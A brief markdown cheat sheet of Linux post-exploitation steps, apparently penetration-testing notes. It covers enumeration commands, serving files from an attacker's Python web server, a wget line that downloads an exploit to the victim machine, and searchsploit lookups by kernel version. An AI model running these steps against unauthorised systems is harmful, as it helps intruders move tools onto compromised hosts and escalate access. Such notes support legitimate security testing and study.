 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
   
## Uploading files

    python -m SimpleHTTPServer  #Host the web server
     wget <IP>:8000/exploit     # Download to victim machine
   
## Exploit

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
   
   
